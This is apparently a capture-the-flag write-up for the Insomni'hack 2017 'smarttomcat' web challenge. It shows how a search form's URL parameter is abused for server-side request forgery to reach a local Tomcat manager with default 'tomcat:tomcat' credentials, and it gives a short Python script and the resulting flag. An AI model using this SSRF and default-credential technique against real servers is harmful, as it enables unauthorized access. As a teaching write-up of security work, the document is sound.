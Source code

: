 ```yaml
---
layout: post
title: INST17 - smarttomcat - Web - 50 pts
---
```


# created by xel/grimmlin

>Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?

![website](public/INST17_website.png "website")

We can submit coordinates to find the cat.
If we check the source code we can see that a **POST** is done to **index.php** with **localhost:8080** and a **jsp** file as **u-parameter**.

![source](public/INST17_source.png "source")


Together with the task title we assume it's a **tomcat**.
Tomcat's got that [**manager**](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html). Let's try **standard credentials**:


```
#!/usr/bin/env python

import requests
import re

TARGET_URL = 'http://smarttomcat.teaser.insomnihack.ch/'
TOMCAT_USER = 'tomcat'
TOMCAT_PASS = 'tomcat'
PAYLOAD = "http://"+TOMCAT_USER+":"+TOMCAT_PASS+"@localhost:8080/manager/html"

answer = requests.post(TARGET_URL, data={'u':PAYLOAD})
flag = re.findall(r"(INS\{...+\})", answer.text)

print(flag[0])
```
**INS{th1s_is_re4l_w0rld_pent3st}**



